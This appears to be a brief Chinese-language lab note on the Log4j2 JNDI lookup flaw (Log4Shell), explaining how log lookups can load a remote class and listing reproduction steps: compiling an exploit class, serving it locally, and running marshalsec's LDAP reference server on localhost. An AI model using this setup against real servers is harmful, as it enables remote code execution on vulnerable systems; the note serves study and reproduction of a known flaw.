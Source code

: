 ### 0x01 漏洞原理
用我的理解简单概括一下，log4j2在输出日志的时候除了支持常见的变量替换还支持远程获取内容（远程获取内容由Lookups功能提供），例如
```
# 变量替换
logger.info("user name: {}, alias name: {}", userName, aliasName)
```
远程获取内容支持多种维度，其中就包括jndi，如下图  
![image](./Lookups.png)  
jndi简单讲就是一个类似于字典的数据集，传入名称，获取对应的对象，不过jndi还有一个危险的特性，可获取远程class或远程class的地址，加载到本地后通过classloader执行，这个时候如果用户传入一个包含恶意class的地址，则会导致服务器执行恶意代码，具体利用的话需要结合jndi支持的协议，jndi支持ladp、rmi、corba、dns四种协议，如下复现我们选择ldap协议


### 0x02 漏洞复现
1、javac.exe .\Exploit.java  
2、python3.exe -m http.server 8800  
3、java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8800/#Exploit  

4、结果如下图  
![image](./dnglog.png)  
![image](./calc.png)  